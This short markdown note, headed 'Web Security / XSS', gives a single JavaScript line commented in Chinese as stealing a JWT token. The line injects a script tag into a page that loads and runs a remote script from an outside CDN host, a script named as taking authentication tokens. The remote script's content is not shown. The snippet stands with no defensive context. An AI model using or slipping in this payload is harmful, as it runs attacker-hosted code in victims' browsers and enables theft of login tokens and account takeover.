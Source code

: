 # Web Security 

## XSS


https://cdn.xgqfrms.xyz/web-security/xss-jwt-token.js

```js
// XSS 窃取 JWT token
document.body.insertAdjacentHTML(`beforeend`, `<script src="https://cdn.xgqfrms.xyz/web-security/xss-jwt-token.js" async></script>`);

```
